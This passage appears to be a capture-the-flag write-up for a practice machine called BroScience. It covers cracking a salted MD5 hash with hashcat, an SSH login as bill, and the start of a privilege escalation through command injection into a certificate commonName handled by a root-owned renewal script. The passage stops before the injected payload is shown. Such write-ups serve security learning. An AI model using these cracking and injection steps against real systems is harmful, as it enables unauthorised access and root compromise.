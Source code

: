 in the table *users* we found password hashes and usernames. from our read from `/etc/passwd` we know only one user has shell access.

```shell
bill | 13edad4932da9dbb57d9cd15b66ed104                         
```

know we need to crack the password hash. after a few fails we did not so at first glance that we were missing the salt added to the password hash. luckily it is also presented in the `db_connect.php` script. with that knowledge we were able to crack the hash with hashcat.

```hash with salt
13edad4932da9dbb57d9cd15b66ed104.NaCl
```

```shell
$ hashcat -m 10 -a 0 bill_hash.txt /usr/share/wordlists/rockyou.txt
```

and we got the password.

```shell
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
```

```shell
$ ssh bill@brosience
...
bill@broscience:~$ id
uid=1000(bill) gid=1000(bill) groups=1000(bill)
```

*user flag*
```shell
bill@broscience:~$ cat user.txt
5b***************************309
```

we found a unusual script in `/opt/renew_cert.sh`
the script belongs to root.  the script needs as input a `crt` certificate. it checks if the cert is less than a day valid and if not it generates a new certificate with the same input variables.


the interesting part is where the script moves the new script from temp to the homefolder of bill and renames the cert after the commonName variable.

```shell
...
 /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
...
```

to exploit this we need to generate a script that is valid for less than a day. we struggled a bit with the correct name of the cert but in the end `broscience.crt` worked just fine.

```shell
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out ~/Certs/broscience.crt -days 1
```

after this command we need to answer a few questions regarding the ownership of the cert. and here we need to put our malicious code into the common name question.
